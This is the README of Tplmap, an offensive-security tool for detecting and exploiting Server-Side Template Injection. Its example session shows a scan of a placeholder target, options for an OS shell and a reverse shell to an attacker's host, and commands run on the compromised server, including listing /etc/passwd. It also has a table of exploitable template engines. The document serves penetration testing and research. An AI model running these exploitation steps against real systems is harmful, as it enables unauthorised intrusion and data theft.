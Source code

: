 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=7'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'inj' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Freemarker plugin is testing rendering with tag '${*}'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Nunjucks plugin is testing rendering with tag '{{*}}'
[+] Nunjucks plugin is testing blind injection
[+] Nunjucks plugin has confirmed blind injection
[+] Tplmap identified the following injection point:

  GET parameter: id
  Engine: Nunjucks
  Injection: blind
  Context: text
  OS: undetected
  Technique: blind
  Capabilities:

   Shell command execution: yes (blind)
   Bind and reverse shell: yes
   File write: yes (blind)
   File read: no
   Code evaluation: no

[+] Rerun tplmap providing one of the following options:

    --os-shell                  Run shell on the target
    --os-cmd                    Execute shell commands
    --bind-shell PORT           Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	    Upload files to the server
                          
$ ./tplmap.py -u 'http://www.target.com/app?id=7' --os-shell

[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Techniques         | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render/blind      | yes               | Python          | yes       | yes        |
| Jinja2               |  render/blind      | yes               | Python          | yes       | yes        |
| Python (generic)     |  render/blind      | yes               | Python          | yes       | yes        |
| Nunjucks             |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Jade                 |  render/blind      | yes               | JavaScript      | yes       | yes        |
| doT                  |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Marko                |  render/blind      | yes               | JavaScript      | yes       | yes        |
| JavaScript (generic) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Dust (<= dustjs-helpers@1.5.0) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Smarty (unsecured)   |  render/blind      | yes               | PHP             | yes       | yes        |
| PHP (generic)        |  render/blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render/blind      | yes               | no              | yes       | yes        |
| Velocity             |  render/blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |
| Dust (> dustjs-helpers@1.5.0)  |  render            | no                | no              | no        | no         |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
